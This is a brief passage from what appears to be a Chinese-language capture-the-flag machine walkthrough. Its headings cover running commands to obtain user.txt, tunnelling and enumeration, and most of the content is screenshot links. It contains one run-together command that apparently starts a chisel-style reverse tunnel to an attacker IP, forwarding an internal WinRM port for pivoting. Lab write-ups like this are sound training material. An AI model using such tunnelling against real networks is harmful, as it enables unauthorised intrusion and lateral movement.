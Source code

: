 执行命令  
获取user.txt

[![](assets/1699929055-12b94ef0fc90bd1f5cb7b277cdd81bc5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104356-7d5a88e6-81ce-1.png)

.\\c.execlient10.10.14.39:8000R:5985:192.168.122.132:5985

隧道  
[![](assets/1699929055-4c3df168934954ae12948c7210fb56ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104404-823fbc46-81ce-1.png)

枚举

